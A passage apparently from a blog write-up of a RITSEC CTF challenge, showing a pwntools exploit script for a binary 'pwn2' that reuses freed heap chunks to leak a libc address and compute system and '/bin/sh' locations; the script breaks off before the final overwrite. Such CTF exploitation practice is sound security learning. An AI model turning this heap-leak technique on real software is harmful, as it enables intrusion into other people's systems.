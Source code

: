 ![hr]({{ site.url }}/images/2018/hr.png)

Full Exploit:

{% highlight python %}
from pwn import *

#context.log_level=True
libc = ELF("./libc.so.6")
sys = libc.symbols['system']
#print "System:%.08x" %(sys)

r = process("./pwn2")
#r = remote("fun.ritsec.club",1337)

read = p32(0x0819101c)

def create_person(l,n,a):
	r.recvuntil(":")
	r.sendline("1")
	r.recvuntil(":")
	r.sendline(str(l))
	r.recvuntil(":")
	r.sendline(n)
	r.recvuntil(":")
	r.sendline(str(a))

def edit_person(indx,l,n):
	r.recvuntil(":")
	r.sendline("2")
	r.recvuntil(":")
	r.sendline(str(indx))
	r.recvuntil(":")
	r.sendline(str(l))
	r.recvuntil(":")
	r.sendline(str(n))

def info(indx):
	r.recvuntil(":")
	r.sendline("3")
	r.recvuntil(":")
	r.sendline(str(indx))

def delete(indx):
	r.recvuntil(":")
	r.sendline("4")
	r.recvuntil(":")
	r.sendline(str(indx))



create_person(256,"hello",10)
create_person(256,"world",10)

delete(0)

create_person(4,"",20)

info(0)
r.recvuntil(":")
leak = u32(r.recv()[1:5])
libc.base = leak-0x1b080a
system = libc.base+0x3a940
binsh = libc.base+0x15902b

print "Libc:0x%.08x" % (libc.base)

r.sendline("\n")

create_person(256,"CCCC",20)
create_person(256,"DDDD",20)